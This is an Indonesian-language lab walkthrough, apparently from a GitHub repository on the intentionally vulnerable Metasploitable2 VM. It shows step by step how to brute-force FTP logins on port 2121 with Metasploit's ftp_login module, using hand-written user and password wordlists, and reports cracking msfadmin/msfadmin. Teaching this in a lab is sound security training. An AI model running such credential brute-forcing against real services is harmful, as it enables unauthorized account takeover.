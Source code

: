 # Exploit Port 2121 (FTP)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%201.JPG)

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%202.JPG)

- Buat file dengan nano yang berisi daftar password untuk uji coba
```sh
nano password-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%203.JPG)

- Isi file tersebut dengan daftar password sebagai berikut. Kemudian tekan `Ctrl+O` lalu `enter` untuk menyimpan
```sh
qwerty
1234
admin
12345
msfadmin
123123
12345678
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%204.JPG)

- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%205.JPG)

- Cari modul untuk exploit FTP
```sh
search pro ftp
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%206.JPG)

- Gunakan modul `auxiliary/scanner/ftp/ftp_login` untuk melakukan brute force login FTP
```sh
use auxiliary/scanner/ftp/ftp_login
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%207.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%208.JPG)

- Isi parameter yang dibutuhkan di modul tersebut. Isi parameter `USER_AS_PASS` dengan true supaya daftar user bisa gunakan sebagai daftar password
```sh
set rhosts <IP_metasploitable2>
set rport 2121
set user_file /home/kali/user-metasploitable2.txt
set pass_file /home/kali/password-metasploitable2.txt
set user_as_pass true
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%209.JPG)

- Setelah pengisian parameter selesai jalankan proses brute force. Setelah dijalankan didapat 1 akun FTP dengan username msfadmin dan password msfadmin
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%2010.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20pro%20FTP/pro%20ftp%2011.JPG)